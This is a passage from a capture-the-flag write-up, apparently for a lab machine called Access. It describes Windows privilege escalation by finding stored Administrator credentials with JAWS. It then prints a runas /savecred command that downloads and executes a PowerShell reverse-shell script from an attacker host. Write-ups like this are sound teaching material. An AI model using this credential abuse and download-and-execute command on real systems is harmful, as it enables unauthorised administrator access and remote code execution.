 Because of the nature of the unstable shell, I couldn't get Sherlock to work properly because I couldn't see any kind of errors. Skipping vulnerabilities, I work on using the same Powershell one liner to upload and run JAWS (Just Another Windows (Enum) Script) to view my privilege escalation options. Immediately when the script finishes, I notice the administrator credentials are currently stored on the machine...
```
-----------------------------------------------------------
 Stored Credentials
-----------------------------------------------------------

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

I look through the rest of the JAWS output, I don't really find much but I know these credentials are what I need. You can use runas with the /savecred option to run commands as the ACCESS\Administrator account. The only problem with this is you have to get the quotes down for the Windows command line syntax. Again I struggled with this a bit especially with my unstable shell, but I got it down.

From here I'm thinking of getting a reverse shell as the local administrator. Even though I'm in a Powershell, I still need to execute it when I'm using the stored admin credentials, here is the syntax I ended up using
```
runas /user:ACCESS\Administrator /savecred "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/shell.ps1')"
```

![AccessRoot](/assets/AccessRoot.png)
